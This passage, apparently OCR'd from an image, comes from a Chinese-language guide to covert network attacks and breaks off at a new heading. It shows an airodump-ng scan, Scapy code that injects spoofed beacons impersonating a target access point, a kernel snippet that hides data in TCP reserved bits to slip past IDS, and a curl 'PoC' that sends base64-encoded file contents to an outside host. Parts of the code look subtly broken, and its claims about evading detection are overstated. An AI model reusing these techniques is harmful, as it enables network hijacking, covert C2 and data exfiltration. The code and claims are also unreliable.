 ### **2.2 寄生Mesh网络（Parasitic Mesh）**

- **方法**：劫持现有Wi-Fi/蜂窝网络，构建隐蔽覆盖网络。
- **攻击流程**：
  1. **扫描目标AP**：
     ```bash
     airodump-ng wlan0mon --output-format csv -w dump
     ```
  2. **注入寄生信标**：
     ```python
     from scapy.all import *
     def inject_ghost_beacon(ssid, target_bssid):
         dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", addr2=target_bssid)
         beacon = Dot11Beacon(cap="ESS+privacy")
         frame = RadioTap()/dot11/beacon/ssid
         sendp(frame, iface="wlan0mon", count=100, inter=0.1)
     ```
  3. **建立隐蔽C2**：寄生节点通过ICMP隧道回传数据。

---

## **3. 传输层隐匿（Transport Layer Stealth）**

### **3.1 TCP/IP头部隐写术**

- **技术**：篡改TCP保留位（Reserved Bits）传递数据。
- **代码（内核模块）**：
  ```c
  // 修改TCP头部
  void stealth_tcp(struct sk_buff *skb) {
      struct tcphdr *tcp = tcp_hdr(skb);
      tcp->res1 = (payload_byte >> 4) & 0x0F;  // 高4位
      tcp->res2 = payload_byte & 0x0F;        // 低4位
  }
  ```
- **检测规避**：防火墙/IDS无法区分该流量与正常HTTP。

### **3.2 QUIC协议滥用（Google QUIC Covert Channel）**

- **方法**：利用QUIC的0-RTT加密特性隐藏数据。
- **PoC**：
  ```bash
  # 使用curl发送隐蔽数据
  curl --http3 -H "X-Stealth: $(base64 data.bin)" https://example.com
  ```
- **优势**：QUIC流量难以被DPI（深度包检测）解析。

---

## **4. 应用层隐匿（Application Layer Stealth）**

### **4.1 深度学习隐写术（DeepStega）**
